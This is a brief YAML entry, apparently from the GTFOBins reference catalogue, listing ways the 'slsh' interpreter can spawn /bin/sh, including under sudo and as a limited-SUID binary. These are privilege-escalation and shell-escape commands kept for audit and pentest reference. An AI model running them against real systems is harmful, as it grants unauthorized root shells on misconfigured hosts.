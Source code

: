 ```yaml
---
functions:
  shell:
    - code: slsh -e 'system("/bin/sh")'
  sudo:
    - code: sudo slsh -e 'system("/bin/sh")'
  limited-suid:
    - code: ./slsh -e 'system("/bin/sh")'
---
```

